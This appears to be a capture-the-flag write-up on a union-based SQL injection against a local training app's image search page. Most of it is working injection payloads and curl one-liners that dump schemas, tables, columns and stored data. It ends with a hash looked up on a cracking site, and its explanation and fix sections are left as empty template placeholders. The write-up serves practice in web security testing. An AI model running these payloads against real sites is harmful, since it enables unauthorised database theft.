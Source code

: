 # Union Based SQL Injection in search image page

## 📖 Vulnerability Explanation
[Explain what the vulnerability is, how it works, and why it's dangerous. Include conditions required for exploitation if applicable.]

## ⚙️ Exploitation Process

- Dump databases

```
0 UNION SELECT 1,schema_name FROM information_schema.schemata; -- -
```

```
curl -s 'http://localhost:9090/index.php?page=searchimg&id=0+UNION+SELECT+1%2Cschema_name+FROM+information_schema.schemata%3B+--+-&Submit=Submit#' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.*<br\/>Title: //' | sed 's/<br\/>.*//'
```

---

- Dump tables

```
0 UNION SELECT table_name,table_schema FROM information_schema.tables; -- -
```

```
curl -s 'http://localhost:9090/index.php?page=searchimg&id=0+UNION+SELECT+table_name%2Ctable_schema+FROM+information_schema.tables%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/Title: /\n[+] Database   : /' | sed 's/Url : /[-] Table name : /' | grep -v table
```

---

- Dump columns of table _list\_images_

```
echo -n 'list_images' | xxd -p
```

```
0 UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name=0x6c6973745f696d61676573; -- -
```

```
curl -s 'http://localhost:9090/index.php?page=searchimg&id=0+UNION+SELECT+1%2Ccolumn_name+FROM+information_schema.columns+WHERE+table_name%3D0x6c6973745f696d61676573%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/Title: //' | grep -v 'Url : '
```

---

- Read columns _title_ and _comment_

```
0 UNION SELECT title,comment FROM Member_images.list_images; -- -
```

```
curl -s 'http://localhost:9090/index.php?page=searchimg&id=0+UNION+SELECT+title%2Ccomment+FROM+Member_images.list_images%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/Title: /\n[+] Title   : /' | sed 's/Url : /[-] Comment : /' | grep -v table
```

---

- Crack the hash and craft the flag using the steps provided

> IMAGE crakstation.net

```
echo -n 'albatroz' | sha256sum
```

## 🧰 Additional Resources Used

We used ```https://crackstation.net/``` to crack the hash. This page doesn't really _crack_ the hash you provide, but performs a lookup on pre-computed hashes instead.

## 🔧 Fix
[Describe how to fix the vulnerability]

## ☝️🤓 Advanced explanation
While these SQLi allowed us to read most of data present in the database, we could not read everything. After trying to read the database _Member\_Brute\_Force_, we got an error as the account used by the app on these pages did not have access to it.